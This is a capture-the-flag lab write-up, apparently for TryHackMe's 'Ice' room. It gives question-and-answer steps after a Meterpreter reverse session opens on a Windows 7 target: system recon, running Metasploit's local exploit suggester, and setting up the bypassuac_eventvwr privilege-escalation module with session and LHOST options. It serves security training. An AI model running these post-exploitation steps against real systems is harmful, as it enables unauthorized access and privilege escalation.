 ```bash
[*] Meterpreter session 2 opened (10.10.250.92:4444 -> 10.10.76.152:49188) at 2021-12-05 15:40:57 +0000
[*] Cleaning up registry keys ...
```

## ANSWER THE FOLLOWING :
----

1.Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
>>meterpreter

2.What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room.
>>Dark

3.What build of Windows is the system?
>>7601

4.Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
>>x64

5.Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*
>>No answer needed

6.Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
>>exploit/windows/local/bypassuac_eventvwr

7.Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.
>>No answer needed

8.Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`
>>No answer needed

9.Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`
>>No answer needed

10.Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?
>>LHOST

11.Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`
>>No answer needed
